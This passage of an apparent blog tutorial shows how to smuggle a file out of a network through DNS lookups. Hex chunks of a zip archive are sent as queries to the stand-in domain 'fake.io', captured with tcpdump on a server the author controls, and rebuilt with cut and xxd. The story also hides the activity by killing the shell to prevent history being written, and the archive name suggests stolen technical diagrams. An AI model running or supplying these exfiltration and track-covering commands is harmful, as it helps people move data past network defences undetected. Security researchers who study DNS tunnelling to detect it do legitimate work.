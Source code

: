 As you can see, the output has generated a whole bunch of potential lookups for random strings. The same command above is rerun, but with `| sh` at the end, performing the actual lookups.
On our server, we have tcpdump listening on port 53, writing all of the recorded packets to a file.

## back home
We close our bash session with `kill -9 $$` to prevent any history from writing and relogin, completing the original work we came for.

Back home, it was time to stop the `tcpdump` that was running, and attempt to reassemble that file. The domain we used for the lookups was `fake.io`, so we just grep the output for that to ensure that we got the relevant parts (real ip's masked to 127.0.0.1):

```
% tcpdump -r raw -n | grep fake.io
reading from file raw, link-type NULL (BSD loopback)
19:31:32.919144 IP 127.0.0.1.49331 > 127.0.0.1.53: 39001+ A? 504b03040a000000000042a9384400000000000000000000000017001c00.fake.io. (86)
19:31:32.925135 IP 127.0.0.1.51116 > 127.0.0.1.53: 23736+ A? 7068616e746f6d6a732d312e392e372d6d61636f73782f55540900032b47.fake.io. (86)
[snip]
```

Excellent! As we can see, we got some recorded requests, similar to those that we originally sent earlier in the day. Lets filter the output a little more, so that we sit with only the original hashes as output.

```
% tcpdump -r raw -n | grep fake.io | cut -d' ' -f 8 | cut -d. -f 1
reading from file raw, link-type NULL (BSD loopback)
504b03040a000000000042a9384400000000000000000000000017001c00
7068616e746f6d6a732d312e392e372d6d61636f73782f55540900032b47
[snip]
```

Lastly, we can pipe all of this through `xxd -r` and redirect the output to a new file. If all went well, this file *should* be `z300_technical_diagrams.zip`

```
% tcpdump -r raw -n | grep fake.io | cut -d' ' -f 8 | cut -d. -f 1 | xxd -r > z300_technical_diagrams.zip

% file z300_technical_diagrams.zip
z300_technical_diagrams.zip: Zip archive data, at least v1.0 to extract
```

## python all the things
Using only some bash commands, we have managed to transfer a file over the network using only DNS. This method however assumes that you have a running name server on the remote end that would actually respond to your requests, otherwise your lookups may take a very long time for the `dig` command to timeout, and it would retry like 3 times which would mean you would need to `uniq` your results before you `xxd -r` them.

So, in order for me to *learn something new*, I figured I'd write some python to help with this file transferring over DNS. Heck, maybe it could even result in something actually useful :o

